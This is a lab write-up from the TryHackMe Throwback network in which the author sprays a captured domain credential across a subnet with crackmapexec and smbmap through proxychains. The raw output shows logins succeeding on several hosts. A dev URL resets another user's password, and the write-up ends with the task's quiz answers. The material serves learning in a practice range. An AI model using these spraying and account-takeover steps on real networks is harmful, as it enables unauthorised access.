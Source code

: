 # You're Five Minutes Late...
Continuing on from the last task I add a FoxyProxy proxy to the AttackBox then my box as I read that I have do crackmapexec again. One more connective nightmare ahead I got lunch and started rolling my head over the keyboard till the everthing was re-re-re-re-re-re-setup again. I feel like I have learnt alot from this, but it really cost my motivation. I am now certain that using both the openvpn proxy and the AttackBox causes this connectivity issue as the proxy uses the same address for tun0. Check out my [Archive](https://github.com/7RU7H/Archive) project that has new section on Metasploit.


```bash
proxychains crackmapexec smb 10.200.102.0/24 -u SQLService -d THROWBACK.local -p mysql337570


SMB         10.200.102.117  445    THROWBACK-DC01   [*] Windows 10.0 Build 17763 x64 (name:THROWBACK-DC01) (domain:THROWBACK.local) (signing:True) (SMBv1:False)
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.200.102.117:445 SMB         10.200.102.176  445    THROWBACK-TIME   [*] Windows 10.0 Build 17763 x64 (name:THROWBACK-TIME) (domain:THROWBACK.local) (signing:False) (SMBv1:False)
 ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.200.102.117:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.200.102.117:445  ...  OK
SMB         10.200.102.117  445    THROWBACK-DC01   [+] THROWBACK.local\SQLService:mysql337570 
[proxychains] Strict chain  ...  127.0.0.1:1080 [proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.200.102.176:445  ...  10.200.102.202:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.200.102.176:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.200.102.176:445  ...  OK
SMB         10.200.102.176  445    THROWBACK-TIME   [+] THROWBACK.local\SQLService:mysql337570
...
...
SMB         10.200.102.219  445    THROWBACK-PROD   [*] Windows 10.0 Build 17763 x64 (name:THROWBACK-PROD) (domain:THROWBACK.local) (signing:False) (SMBv1:False)
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.200.102.219:445  ...  OK
SMB         10.200.102.222  445    THROWBACK-WS01   [*] Windows 10.0 Build 19041 x64 (name:THROWBACK-WS01) (domain:THROWBACK.local) (signing:False) (SMBv1:False)
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.200.102.219:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.200.102.219:445  ...  OK
<--socket error or timeout!
SMB         10.200.102.219  445    THROWBACK-PROD   [+] THROWBACK.local\SQLService:mysql337570 
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.200.102.222:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.200.102.222:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.200.102.222:445  ...  OK
<--socket error or timeout!
SMB         10.200.102.222  445    THROWBACK-WS01   [+] THROWBACK.local\SQLService:mysql337570 

```

I also ran another nmap scan and a smbmap through the the proxychains:
```bash
proxychains smbmap -u SQLservice -p mysql337570 -d THROWBACK.local -H 10.200.102.0/24
```


MurphyF has the email reset, make sure you have edited your /etc/hosts and use the foxyproxy to view the Throwback Hacks Timekeep
![MurphyF](Screenshots/5minuteMurphyFemail.png)

```txt
URL:

http://timekeep.throwback.local/dev/passwordreset.php?user=murphyf&password=PASSWORD
```


## Answers

What is the hostname of the device?  
```{toggle}
Throwback-TIME
```
What is the title of the web page?  
```{toggle}
Throwback Hacks Timekeep
```
What user was the password reset for?
```{toggle}
MurphyF
```